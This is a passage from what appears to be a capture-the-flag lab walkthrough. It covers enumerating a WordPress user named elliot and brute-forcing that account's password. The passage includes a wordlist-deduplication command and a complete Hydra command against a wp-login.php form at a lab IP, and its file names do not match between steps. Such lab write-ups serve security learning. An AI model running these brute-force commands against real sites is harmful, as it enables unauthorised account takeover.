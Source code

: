 <img src="./img/Screenshot 2024-08-11 202822.png"></img>

Now we got length for username
But we similar length for all username except the the **Elliot**
Now we found the username .

Lets find the password for the elliot username
first we have to sort the fsocity.dic file by using follwing command.
```text
sort /home/kali/Downloads/fosocity.dic| uniq >elliotpw.txt
```
now we have unique words in this file compared to fsocity.dic
Lets perform brute force attack for password
here i will use the tool called **Hydra**
```text
sudo hydra -vV -l elliot -P elliot_password.txt 192.168.0.6 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is Incorect'

```
Result:
<img src="./img/Pasted image 20240811211822.png"></img>
 we found 16 vaild password
 Now we have perform **Wpscan** to get correct combination.